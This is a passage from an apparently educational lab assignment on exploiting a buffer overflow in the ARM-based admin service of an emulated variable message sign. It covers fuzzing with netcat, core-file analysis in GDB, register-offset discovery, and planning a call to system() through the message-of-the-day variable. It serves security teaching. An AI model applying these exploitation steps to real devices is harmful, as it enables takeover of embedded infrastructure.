We begin by interacting with the program in ways that are likely to lead to an out-bounds-write and look for observable behavior in the program that indicates the out-of-bounds write actually occurred.  The technique, or attack pattern, we are using now is commonly referred to as 'Fuzzing' (see [CAPEC-28](https://capec.mitre.org/data/definitions/28.html)).

We can use Python to construct input to the target program.  Use the following command to input 16 ASCII 'A' characters into the target program.

```
student@revm:~$ python -c 'print "A"*16' | nc 127.0.0.1 5555
The message of the day is: Changing lanes? Use yah blinkah.

If you enter the correct password you can change the message of the day.

password: 
Your password is incorrect.

password: ^C
student@revm:~$
```
Observe that the program responded to the input of  `AAAAAAAAAAAAAAAA` by sending the `Your password is incorrect.` output and prompting for the password again.  You can terminate the connection by pressing the left <kbd>Ctrl</kbd>+<kbd>C</kbd> key combination.

With the input of sixteen ASCII 'A' characters the program appears to be operating as designed.  As expected, the target program provided an appropriate response and continued accepting input.

Now, use the same command to provide a much longer input and see if there are any observable impacts.  For this interaction let's send 128 ASCII 'A' characters instead of 16.
```
student@revm:~$ python -c 'print "A"*128' | nc 127.0.0.1 5555
The message of the day is: Changing lanes? Use yah blinkah.

If you enter the correct password you can change the message of the day.

password: student@revm:~$
```
Observe the differences above between this interaction with a 128 character input versus the 16 character input.  This time we received no indication that the supplied password was incorrect (or correct) and we did not receive another password prompt from the server.  Also observe that the connection was immediately terminated after sending the input.

Now, attempt to connect to the service again via telnet as shown below.
```
student@revm:~$ telnet 127.0.0.1 5555
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
Connection closed by foreign host.
student@revm:~$ 
```
Observe that our connection was not accepted.  A reasonable conclusion would be that our input caused the target service to crash.

At this point we have, to a degree, accomplished the client's second objective.  We identified a vulnerability that impacts the availability of the VMS and come up with a proof of concept exploit.  Our intuition should tell us that there is more to this vulnerability and it may be possible to also compromise the confidentiality and integrity of the target system.  We choose to continue our analysis and characterize the vulnerability further.

The crash of the `signApp` process left behind a [core file](https://en.wikipedia.org/wiki/Core_dump) on the target system.  Let's analyze the core file to understand the state of the `signApp` process when the crash occurred.

> In general, it is a good practice to disable the generation of core files.  These files contain a lot of information that can aid a reverse engineer or other attacker.  This information contains contents of a process's memory, processor register values, and other system state or metadata at the time the process crashed.  Also, they can take up a lot of space on the filesystem which could lead to a Denial of Service condition (i.e. a type of availability issue).  More information about core files in a Linux context can be found in the [core manual page](http://man7.org/linux/man-pages/man5/core.5.html), or the [GDB documentation](https://sourceware.org/gdb/current/onlinedocs/gdb/).
>

Since our last input caused the `signApp` service to crash we need to start it again.  The easiest way to do this is to restart the emulated VMS system.  Refer to the instructions in the "How to Power On/Off and Reboot the Variable Message Sign" section.  Restarting the VMS system now ensures the core file is fully committed to the disk before we attempt to access it.

To access the core file remount the VMS filesystem by running the following two commands.

```
student@revm:~$ sudo umount /mnt
student@revm:~$ sudo mount -t ext2 -o ro ~/vms_target/rootfs.ext2 /mnt
```

The core file should be available at `/mnt/core`.  Verify by running the following command.

```
student@revm:~$ ls -l /mnt/core 
-rw------- 1 root root 2383872 Dec 31  1969 /mnt/core
student@revm:~$
```

Next, open the core file with the GNU Debugger (GDB).  We won't use GDB to perform live debugging of the signApp program.  We will use GDB, and the core file we captured, to examine the state of the `signApp` process when it crashed.  You could call this a post-mortem debugging session.  Run the command below to launch GDB with our core file as input (the command below is run via `sudo` because the core file is only readable by the `root` user.

```
student@revm:~$ sudo ~/buildroot-2019.02.4/output/host/usr/bin/arm-buildroot-linux-uclibcgnueabi-gdb -c /mnt/core
```
> The GDB program we are running with the above command, `arm-buildroot-linux-uclibcgnueabi-gdb`, is produced during the customer's Buildroot build process.  It is tailored to support the ARM processor architecture of the target system (i.e. the VMS).

At the `(gdb)` prompt type the `info registers` command as shown below to examine the state of the registers.  Note that a portion of the output below is redacted (i.e. the real output will not contain `<REDACTED>` anywhere).  More information about examining registers in GDB is available at [https://sourceware.org/gdb/current/onlinedocs/gdb/Registers.html](https://sourceware.org/gdb/current/onlinedocs/gdb/Registers.html).

```
(gdb) info registers
r0             0x41414141	1094795585
r1             <REDACTED>	<REDACTED>
r2             <REDACTED>	<REDACTED>
r3             <REDACTED>	<REDACTED>
r4             <REDACTED>	<REDACTED>
r5             <REDACTED>	<REDACTED>
r6             <REDACTED>	<REDACTED>
r7             <REDACTED>	<REDACTED>
r8             <REDACTED>	<REDACTED>
r9             <REDACTED>	<REDACTED>
r10            <REDACTED>	<REDACTED>
r11            <REDACTED>	<REDACTED>
r12            <REDACTED>	<REDACTED>
sp             <REDACTED>	<REDACTED>
lr             <REDACTED>	<REDACTED>
pc             0x41414140	0x41414140
cpsr           <REDACTED>	<REDACTED>
(gdb) 
```
In the output above there are three columns.  From left to right, the first column is the register identifier (e.g. `r0`, `r1`, `r2`, `sp`, `lr`, `pc`, ...).  The second column is the value stored in the register represented in hexadecimal format.  All the registers are four bytes in size and the leading zeros are not shown.  The third column is the value stored in the register represented in decimal format.  For registers that represent memory addresses (e.g. `pc`, `sp`) the value in the third column will be represented in hexadecimal format.

The hexadecimal value for an ASCII 'A' is 0x41.  From the output above we see that some of the registers are populated with the ASCII 'A' characters from our input; however, we can not tell which ASCII 'A' values are in which positions because our entire input buffer consisted of all ASCII 'A' characters.

**_Exercise: Identify all the registers we control._**

Hint: We control the `r0` and `pc` registers; however, these are not all the registers we control.  The registers we control are populated with 0x41 bytes.  

To exit GDB type `quit` at the `(gdb)` prompt.

In order to determine which portion of the input buffer appears in which registers we need to pass in a buffer that does not contain any repeating four byte sequences of characters.  In the previous step we identified which registers we control by passing in the buffer of all ASCII 'A' characters so we know which registers to inspect on this second round.  We can inspect the sequence of bytes we see in each register we control and associate that with a specific position in our input buffer because none of the sequences repeat.  Ultimately we will use this offset information to craft a buffer that will cause certain registers to be populated with specially chosen values.

Run the command below to send in a 128 character buffer that contains no repeating four byte sequences.

```
student@revm:~$ python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae"' | nc 127.0.0.1 5555
The message of the day is: Changing lanes? Use yah blinkah.

If you enter the correct password you can change the message of the day.

password: student@revm:~$ 
```
> The 128 character pattern in the command above (`Aa0Aa1Aa2Aa3...`) was generated using the [pattern_create.rb](https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_create.rb) tool included with the Metasploit Framework.

As expected, the 128 character input caused the `signApp` program to crash again.  This time the values populated in the registers we control should be different.  In other words, instead of being all ASCII 'A' characters they will be sequences of characters from our non-repeating input string.

Remember, the VMS Administrative Interface crashed when you sent in the buffer with the non-repeating pattern.  At this point you should restart the VMS so you can interact with it again later.  Refer to the instructions in the "How to Power On/Off and Reboot the Variable Message Sign" section.  Restarting the VMS system now ensures the core file is fully committed to the disk before we attempt to access it.

To access the new core file remount the VMS filesystem again by running the following two commands.

```
student@revm:~$ sudo umount /mnt
student@revm:~$ sudo mount -t ext2 -o ro ~/vms_target/rootfs.ext2 /mnt
```

Next, open the new core file with GDB using the command below.

```
student@revm:~$ sudo ~/buildroot-2019.02.4/output/host/usr/bin/arm-buildroot-linux-uclibcgnueabi-gdb -c /mnt/core
```
At the `(gdb)` prompt type the `info registers` command as shown below to examine the state of the registers.  Note that the output from the info registers command is not shown below.

```
(gdb) info registers
```
Before you answer the next question we need to review the concept of Endianness.

### Endianness

The target VMS system is based on a little endian processor architecture.  One cheap and easy way to determine this is to run the `file` utility against an ELF file that is used on the target system.  We did this earlier with the `signApp` binary and saw the following output.

```
student@student:~$ file /mnt/usr/sbin/signApp 
/mnt/usr/sbin/signApp: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-, not stripped
```

Observe the portion that says `32-bit LSB executable`.  The `LSB` stands for "Least Significant Bit" and is an indication the target architecture is little endian.  The alternative would be `MSB` ("Most Significant Bit") and would be an indication that the target architecture is big endian.

Endianness refers to how multibyte values are stored in memory.  For example, a four byte value would be stored in memory at addresses a, a+1, a+2, and a+3.  Little endian systems store the least significant byte (the "little end") at the lowest memory address for that value (i.e. address a).  Big endian systems store the most significant byte (the "big end") at the lowest memory address for that value.   

The bytes we provide in the input string are stored in an in-memory buffer.  This buffer is an array of characters (bytes).  The array is not a "multibyte" value, it is a series of single byte values.  Single byte values are represented in memory the same way on little endian and big endian systems (because memory is addressed at the byte level).  If later we read a multibyte value from memory, the byte ordering for that value will be handled based on the endianness of the processor.  This would occur if we were to pop a four byte value off the top of the stack and place it in the `pc` (program counter) register.

For example (on a little endian system), if we provide the sequence of byte values `0xEF` `0xBE` `0xAD` `0xDE`, in that order, in our input buffer and they appear in a register, the register value will be `0xDEADBEEF`.

In other words, suppose we observe the value `0x41306141` in a register, this would represent the ASCII characters `A0aA` (when we decode the bytes from left to right).  To correlate this to our input buffer you would need to look for the sequence `Aa0A` (i.e. the same sequence of characters in reverse order).

***Exercise: For all of the registers we control, identify (1) the register identifier (e.g. `r0`, `pc`), (2) the sequence of bytes in that register, and (3) the offset into the input buffer where the value starts.  Count the offsets using a 1-based index (e.g. in the following buffer the sequence of four 'B' characters starts at index 5: AAAABBBBCCCC).***

> We have not given a complete overview of the core registers used in the ARM and Thumb instruction sets and this topic is mostly reserved for another day.  A list of registers is available in section 5.1.1 of the "[Procedure Call Standard for the ARM Architecture](http://infocenter.arm.com/help/topic/com.arm.doc.ihi0042f/IHI0042F_aapcs.pdf)" document, which we will refer to later.  Briefly, there are registers used for function arguments, `r0`-`r4` (a.k.a `a1`-`a4`); registers used for local variables within a function, `r4`-`r8`, `r10`, `r11` (a.k.a `v1`-`v8`); and special registers such as the program counter (`pc`), the link register (`lr`), and the stack pointer (`sp`).  The program counter represents the address of the next instruction for the processor to execute, the link register represents the address of the instruction to return to at the end of the current function, and the stack pointer represents the address of the top of the process's stack.  The procedure call standard also describes how programs are to handle the contents of registers between function calls.  For example, the values in `v1`-`v8` need to be preserved across function calls and `r0` and `r1` are used to hold the return value from a function (`r1` is only used for the return value if the value is 64-bits in size).  

Now, we have the information we need to create an input buffer with a little more finesse.  Let's go ahead and do this now.  The reasons why will become more clear as we continue through this assignment.  Rather than passing in a buffer with all ASCI 'A' characters or a non-repeating pattern let's pass in a buffer structured in a way that allows us to easily verify we have our offsets correct.  We can also use this buffer as a template for the PoC exploit we develop later.

***Exercise: Construct a buffer that populates a four-byte sequence of ASCII 'B' characters (0x42) in the `pc` register and a four-byte sequence of ASCII 'C' characters in the `r0` register.  Your buffer will cause the `signApp` process to crash and the register state will be captured in the resulting core file.  Your buffer should contain only four ASCII 'B' characters and only four ASCII 'C' characters.  All other characters in your sequence should be ASCII 'A' characters.  Your buffer should end with the sequence of four ASCII 'B' characters.  Provide the following three items as your response to this exercise:***

1. ***The text of the command you ran to send your buffer to the VMS Administrative Interface.***
2. ***A screenshot showing the full output you see in the terminal after running the command.***
3. ***A screenshot showing the state of the registers, as captured in the core file from the `signApp` crash, in GDB.***

Hint: The command you run to send your buffer to the VMS Administrative Interface will resemble the example command below.  The number of ASCII 'A' characters and their placement in the example below is not the correct answer to the question.  The example command is provided to clarify the buffer formatting expectations.

```
student@revm:~$ python -c 'print "AAAAAAAACCCCAAAAAAAABBBB"' | nc 127.0.0.1 5555
```

Note: While we can control other registers than `r0` and `pc` we don't care about them for the exploit we are working to develop now.

At this point we have the information we need to construct an input buffer for the VMS Administrative Interface that puts values we choose into some of the registers, including the program counter.  This is a significant step towards putting together a working proof-of-concept exploit that may allow us to execute arbitrary code on the VMS.

Before we continue, let's explore some fundamentals of the ARM architecture and the C Standard Library.  Understanding these concepts will help us craft our exploit.

### Overview of Function Calls in the ARM Architecture

For any processor architecture (e.g. ARM, MIPS, x86) there are standards defined for how applications are supposed to interact with the features of the processor.  Following these standards ensures, for example, that independently built machine code can be linked together to produce a working program.  These standards are defined in an Application Binary Interface (ABI).  You can review the [ABI for the ARM architecture](http://infocenter.arm.com/help/index.jsp?topic=/com.arm.doc.subset.swdev.abi/index.html) (be sure to review the 32-bit architecture version because that is what our VMS uses).

A specific aspect of the ARM ABI we are interested in for this assignment is how function calls are performed.  This is defined in the "[Procedure Call Standard for the ARM Architecture](http://infocenter.arm.com/help/topic/com.arm.doc.ihi0042f/IHI0042F_aapcs.pdf)."  The procedure call standard is only available in a PDF version and a direct link is provided.  Note that you can navigate to this document from the [ARM Infocenter](http://infocenter.arm.com/) website ([Procedure Call Standard for the ARM Architecture Documentation](http://infocenter.arm.com/help/topic/com.arm.doc.ihi0042f/index.html)).

> The terms routine, subroutine, procedure, and function are often used interchangeably in informal conversation.  The [Procedure Call Standard for the ARM Architecture](http://infocenter.arm.com/help/topic/com.arm.doc.ihi0042f/IHI0042F_aapcs.pdf) provides correct definitions for each of these terms.  'Routine' is the highest level term.  'Routine' refers to a program fragment that control can be  transferred to and, upon completion, returns control back to the instruction following where the call to the routine was made. 'Subroutine' is used to make distinctions where nested calls occur.  When speaking in the context of nested calls, 'routine' refers to the caller and 'subroutine' refers to the callee.  The terms 'procedure' and 'function' are used to distinguish between types of routines based on what result they return, if any.  A 'procedure' refers to a routine that returns no value (e.g. a void return in C) and a 'function' refers to a routine that returns some value.
>
> To avoid hairsplitting, this document uses the term 'function' except when referring to specific documentation that uses another term.  In practice, the 'function' term seems to be the most universally used and understood term in conversation, documentation, and user interfaces across the domains of assembly language programming, C programming, and reverse engineering.

For this assignment, the most important thing to understand about function calls in the ARM architecture is that the first four function arguments are passed via registers `r0`-`r4` (a.k.a `a1`-`a4`).  If a function accepts more than four arguments the additional arguments are passed on the stack.  This means that to successfully perform a function call in ARM we need to, at a minimum, populate the argument registers (assuming the function takes four or less arguments).  To properly return to the intended instruction after the function call we also would need to ensure the link register is set up properly.  When it comes to attacks, we do not always set out to do things 'properly' and how we make the target computer behave depends on our objectives.

> Note that a difference between the ARM architecture and the x86 32-bit architecture is that in the x86-32 bit architecture all arguments are passed via the stack.

### Overview of the GNU C Library (glibc) and uClibc-ng

The [GNU C Library (glibc)](https://www.gnu.org/software/libc/) is an implementation of the C Standard Library for Linux-based systems.  The library implements functions required by the C language standards, including the ISO and POSIX standards.  These include familiar functions like `printf`, `read`, `write`, and `memset`.

Because embedded systems, like the VMS, often have significant resource limitations (e.g. volatile and non-volatile memory, CPU resources) they often use an alternative C library implementation that is smaller.  A popular alternative C library implementation for embedded systems is [uClibc-ng](https://uclibc-ng.org/).  While there are some differences between uClibc-ng and the GNU libc, uClibc can generally be used as a drop in replacement.  In practice, it is generally safe to refer to the [GNU libc manual](https://www.gnu.org/software/libc/manual/) or the [Linux manual pages](http://man7.org/linux/man-pages/) for C library documentation even in cases where your target is using the uClibc-ng library.

Our target VMS uses the 1.0.31 version of the uClibc library.  Recall that earlier we mounted the VMS's ext2 filesystem to `/mnt` on your Reverse Engineering VM.  When we imported the `signApp` binary into our Ghidra project earlier Ghidra also imported a `libc.so.0` binary which is used by the `signApp` program.  The listing below, from the VMS ext2 filesystem shows that `libc.so.0` is actually a link the the `libuClibc-1.0.31.so` library implementation.

```
student@student:~$ ls -l /mnt/lib/ | grep libuClibc
lrwxrwxrwx 1 root root     19 Jul 15 09:39 libc.so.0 -> libuClibc-1.0.31.so
lrwxrwxrwx 1 root root     19 Jul 15 09:39 libc.so.1 -> libuClibc-1.0.31.so
-rwxr-xr-x 1 root root 452376 Aug  1 09:34 libuClibc-1.0.31.so
student@student:~$ 
```

From an exploitation point of view, the C standard library is significant because it contains a large collection of useful functions and is virtually always linked into C programs you might be targeting.

### Approach to Crafting a Proof-of-Concept Exploit

We are fairly deep in at this point so let's take stock of where we are in our endeavor to create a working PoC exploit that violates the confidentiality, integrity, and availability of the VMS system (i.e. objective #2 for our customer).  We are able to send in a buffer to the VMS Administrative Interface that allows us to control the contents of, at least, the `r0` and `pc` registers.  In other words, we can affect the flow of program execution, via the `pc` register, and pass at least one argument to a function, via the `r0` register.  Based on what we've discussed to this point you might begin to expect that we are going to try to call a function in the C standard library and pass it an argument.

Based on what we are able to control in terms of argument registers we should select a function that requires only one argument.  We'll spare you the effort of searching through the hundreds of functions and recommend the `system` function in the C standard library.  You can read about the `system` function in the [GNU libc documentation](https://www.gnu.org/software/libc/manual/html_mono/libc.html#index-system), the [Linux manual pages on the web](http://man7.org/linux/man-pages/man3/system.3.html), or by typing `man 3 system` in a terminal on your Ubuntu Reverse Engineering VM.  In the manual page you will notice the following text in the 'Caveats' section:

```
       Any user input that is employed as part of command should be care‐
       fully sanitized, to ensure that unexpected shell commands or command
       options are not executed.  Such risks are especially grave when using
       system() from a privileged program.
```

This part of the assignment will demonstrate the consequences of having a buffer overflow vulnerability, not carefully sanitizing user input, and using the `system` function from a privileged program.

The function signature for the system function is as follows:

```c
int system (const char *command)
```

The function accepts one argument, which is a pointer to a C string containing the command we want to run in the default shell.  A C string is simply an array of characters terminated by a null character (i.e. a `0x00` byte).  

To call the system function we need to do two things:

1. Populate the `r0` register with the address of our command string (i.e. a pointer to our command string).
2. Populate the `pc` register with the address of the `system` function so it will be executed.

Let's tackle #1 first.  We need to write a useful command string into memory somewhere.  Clearly we can write into the stack memory of the `signApp` process via the input buffer we've been submitting after we connect to the VMS Administrative Interface.  While it is possible to know what region of memory the stack for the `signApp` process occupies we can't be exactly sure where our input buffer will be on the stack.  This is because the `signApp` process is multithreaded and we can't be consistently sure of how many threads are active or what sequence of calls may have preceded our input.  Perhaps we could empirically determine a somewhat reliable location, but we can do better.

Are there any other locations in memory we can write to that have a reliably consistent location?  What about where the 'message of the day' is stored?  Recall from our earlier reverse engineering analysis in Ghidra of the `change_message` function that the 'message of the day' is stored in a global variable called `message_of_the_day`.

### Virtual Address Space Layout of Linux Processes

Before we continue, let's briefly examine how the virtual address space of Linux processes is laid out.  The table below shows where the segments of a Linux process are located relative to each other.  Note that in the table the segments at the top are located at lower addresses and the segments at the bottom are located at higher memory address.    

|       Segment Name       | Description                                                  |
| :----------------------------: | ------------------------------ |
|          Text Segment          |          Stores the machine code instructions for the running process (i.e. the `signApp` process in our example).          |
|        Data Segment        |        Contains initialized global and static variables (i.e. global and static variables whose values are specified by the programmer)        |
|        BSS Segment         |        Contains uninitialized global and static variables (the kernel will initialize the contents of the BSS segment to 0 before the program starts executing).        |
|                                |                                |
|          ⬇ Heap          |          Contains memory that is allocated and freed during runtime.  Data in the heep can remain allocated even after the function that allocated it finishes.  The heap grows up (towards higher memory addresses).  Note that the arrow in the column to the left is pointing down because, for this table, the higher memory addresses are located at the bottom.          |
|                                |                                |
| ⬇ Memory Mapping Segment | It is possible to map files and devices into the virtual address space of a process.  In the context of this assignment, it is important to realize that this is the segment of the virtual address space where libraries are loaded (e.g. libuClibc-1.0.31.so). |
|                                |                                |
|         ⬆ Stack      |      Each time a function is called a new stack frame is allocated.  The contents of the stack frame include local variables and saved register values.  The stack grows down (towards lower memory addresses).      |

There are some other segments that are often used in addition to the ones above; however, the ones above are what you will typically see and should be most familiar with.

Because the `message_of_the_day` is an initialized global variable we should expect to see it in the 'Data Segment' of the `signApp` process.  Recall that the `message_of_the_day` global variable was initialized to `Changing lanes? Use yah blinkah.`  There are multiple ways to find the location of the `message_of_the_day` variable in memory and we will explore a couple.

We need to make sure we the memory offsets for data and instructions we are seeing in Ghidra for the `signApp` binary align with where it is actually loaded in memory.  Begin by logging in to the VMS system via the console interface as the `root` user (there is no password for the root user).  Note that we are logging into the console interface and not authenticating to the VMS administration interface.  Instructions for logging in as the root user are in the "How to Power Off or Reboot the Variable Message Sign" section of this assignment.

We need to identify the Process ID (PID) for the `signApp` process on the VMS system.  To do this, simply run the `ps` command from the console of the VMS to show a list of processes.  The `ps` command execution and the expected output are shown below.

```
# ps
PID   USER     COMMAND
    1 root     init
    2 root     [kthreadd]
    3 root     [kworker/0:0-eve]
    4 root     [kworker/0:0H-kb]
    5 root     [kworker/u2:0-ev]
    6 root     [mm_percpu_wq]
    7 root     [ksoftirqd/0]
    8 root     [kdevtmpfs]
    9 root     [netns]
   10 root     [oom_reaper]
   11 root     [writeback]
   12 root     [kcompactd0]
   13 root     [crypto]
   14 root     [kblockd]
   15 root     [kswapd0]
   16 root     [kworker/0:1-eve]
   23 root     [scsi_eh_0]
   24 root     [scsi_tmf_0]
   25 root     [kworker/0:1H-kb]
   26 root     [ipv6_addrconf]
   27 root     [kworker/u2:1]
   28 root     [kworker/0:2-eve]
   29 root     [ext4-rsv-conver]
   45 root     /sbin/syslogd -n
   49 root     /sbin/klogd -n
   82 root     udhcpc -R -n -p /var/run/udhcpc.eth0.pid -i eth0
   87 root     /usr/sbin/dropbear -R
   89 root     /usr/sbin/signApp
   90 root     -sh
   92 root     ps
#
```

Identify the PID associated with the `/usr/sbin/signApp` process.  In the output above the PID is `89`.  In your environment the PID may be different.  That is not a problem and you should substitute your PID in the commands we will review below.

***Exercise: Provide a screenshot of the VMS process listing in your environment.***

Next, we need to examine the currently mapped memory regions of the `signApp` process.  We can find this in a pseudo-file located in the `proc` filesystem on the VMS.

> The `proc` filesystem is a pseudo-filesystem that provides insight into the contents of kernel data structures.  The `proc` filesystem is typically automatically mounted and it's contents can be accessed like 'regular' files.  You can read more about the `proc` pseudo-filesystem in the [manual page](http://man7.org/linux/man-pages/man5/proc.5.html).

The memory mapping is located in the `/proc/[pid]/maps` file and you can view the mapping by running the `cat` command as shown below (be sure the PID you use is correct for your environment).  Note that in the command output below some of the addresses of the memory regions are `<REDACTED>`.

```
# cat /proc/89/maps
00010000-00011000 r-xp 00000000 08:00 1054       /usr/sbin/signApp
00021000-00022000 r-xp 00001000 08:00 1054       /usr/sbin/signApp
00022000-00023000 rwxp 00002000 08:00 1054       /usr/sbin/signApp
   <REDACTED>     r-xp 00000000 08:00 769        /lib/libuClibc-1.0.31.so
   <REDACTED>     ---p 00000000 00:00 0 
   <REDACTED>     r-xp 0006d000 08:00 769        /lib/libuClibc-1.0.31.so
   <REDACTED>     rwxp 0006e000 08:00 769        /lib/libuClibc-1.0.31.so
   <REDACTED>     rwxp 00000000 00:00 0 
   <REDACTED>     r-xp 00000000 08:00 772        /lib/ld-uClibc-1.0.31.so
   <REDACTED>     rwxp 00000000 00:00 0 
   <REDACTED>     r-xp 00000000 00:00 0          [sigpage]
   <REDACTED>     r-xp 00005000 08:00 772        /lib/ld-uClibc-1.0.31.so
   <REDACTED>     rwxp 00006000 08:00 772        /lib/ld-uClibc-1.0.31.so
befdf000-bf000000 rw-p 00000000 00:00 0          [stack]
ffff0000-ffff1000 r-xp 00000000 00:00 0          [vectors]
# 
```

Observe in the output above that the lowest mapped memory region begins at virtual address `0x10000` and has the read and execute permissions enabled (it appears in the first line of the output).  This is where we expect to see the `signApp` binary loaded into virtual memory because much of the contents of the `signApp` binary will make up the text segment.  Based on this information we can conclude that the signApp binary is mapped in the process virtual address space at a base address of `0x10000`.

***Exercise: Provide a screenshot of the memory map for the `signApp` process in your environment (i.e. the contents of the `/proc/[pid]/maps` pseudo-file).***

There is another way to validate our conclusion that the `signApp` binary is loaded starting at virtual address `0x10000` using the `signApp` ELF file itself.  The `readelf` utility, which you can find on your Reverse Engineering VM, displays information found within the ELF files.  The `readelf` utility can access a lot of information, but for now we will focus on the segment headers section.  We can view the segment headers by passing in the `-l` option to the readelf utility.  The output from running the `readelf` utility against the signApp binary is shown below.

```
student@student:~$ readelf -l /mnt/usr/sbin/signApp 

Elf file type is EXEC (Executable file)
Entry point 0x1064c
There are 7 program headers, starting at offset 52

Program Headers:
  Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
  PHDR           0x000034 0x00010034 0x00010034 0x000e0 0x000e0 R E 0x4
  INTERP         0x000114 0x00010114 0x00010114 0x00014 0x00014 R   0x1
      [Requesting program interpreter: /lib/ld-uClibc.so.0]
  LOAD           0x000000 0x00010000 0x00010000 0x00fb0 0x00fb0 R E 0x10000
  LOAD           0x001f40 0x00021f40 0x00021f40 0x001b0 0x001cc RW  0x10000
  DYNAMIC        0x001f48 0x00021f48 0x00021f48 0x000b8 0x000b8 RW  0x4
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x10
  GNU_RELRO      0x001f40 0x00021f40 0x00021f40 0x000c0 0x000c0 R   0x1

 Section to Segment mapping:
  Segment Sections...
   00     
   01     .interp 
   02     .interp .hash .dynsym .dynstr .rel.plt .init .plt .text .fini .rodata .eh_frame 
   03     .init_array .fini_array .dynamic .got .data .bss 
   04     .dynamic 
   05     
   06     .init_array .fini_array .dynamic 
student@student:~$ 
```

As you can see in the output, the first `LOAD` segment starts at virtual address `0x10000` and this is where the base of our `signApp` will be loaded.  Also note that the memory protections associated with this segment are `read` and `execute`.  These are the protections we expect to see for the text segment, which contains the machine code instructions for the running process and is what we expect to see at the lower virtual memory addresses.

Recall from when we created our Ghidra project and imported the `signApp` binary we encountered the following 'Options' dialog in the Ghidra tool.  The dialog has an image base of `10000` which is where we find the `signApp` binary loaded into memory.  In this case Ghidra determined the location correctly based on the information ELF file.  The steps we performed earlier, specifically inspecting the `/proc/[pid]/maps` pseudo-file, were essentially a validation in this case.  We will need to revisit those steps later in the assignment though.


Before our excursion into the virtual address space layout of Linux processes we were looking for the location of the `message_of_the_day` global variable in the virtual address space of the `signApp` process.  This is the global variable into which we will place the shell command we want executed by the `system` function.

Return to the Ghidra tool and open the CodeBrowser window for the `signApp` binary (shown below).  Navigate to the `change_message` function by typing its name into the Symbol Tree view you can find in the middle left.  You will see the `message_of_the_day` global variable represented in both the annotated assembly you see in the Listing view and the C code you see in the Decompile view (shown in the image below).  Double clicking on the `message_of_the_day` variable name will take you to the location in virtual memory where the data stored in the variable exists.  Note that this is the virtual memory location because we correctly set the image base of the signApp binary in Ghidra.



***Exercise: What is the virtual memory address of where we can find the data stored in the `message_of_the_day` variable?***

Hint: Recall that `message_of_the_day` is an initialized global variable so you can expect to find it in the data segment (`.data`).  The data segment starts at virtual memory address `0x0002205c` and ends at virtual memory address `0x000220ef`.  You can view in the Memory Map view for the `signApp` binary in Ghidra.  To load the Memory Map view choose `Window` &#8594; `Memory Map` in the CodeBrowser.  A screenshot of the Memory Map view is shown below.



Recall that our exploit involves calling the `system` function and we need to do the following two things to make the function call:

1. Populate the `r0` register with the address of our command string (i.e. a pointer to our command string).
2. Populate the `pc` register with the address of the `system` function so it will be executed.

In regards to #1 we just determined the address of our command string.  We know we can set the command string to whatever we want by interacting with the VMS Administrative Interface.  We are able to authenticate to that interface because we recovered the default password.

Now, let's tackle #2.  We need to find the virtual memory address of the `system` function so we can populate the `pc` register with it.  We won't find the address of the `system` function in the `signApp` binary because it is part of the C Standard Library (libc).  Recall that Ghidra imported the `libc.so.0` dependency when we imported the `signApp` binary.  Note that when we viewed the memory map for the `signApp` process by inspecting the `/proc/[pid]/maps` pseudo-file we saw the name `libuClibc-1.0.31.so`.  Recall that on the VMS filesystem `libc.so.0` is a link to the `libuClibc-1.0.31.so` file so that is why we see both names.

We haven't analyzed `libc.so.0` yet so return to the Ghidra project window and double click `libc.so.0`.


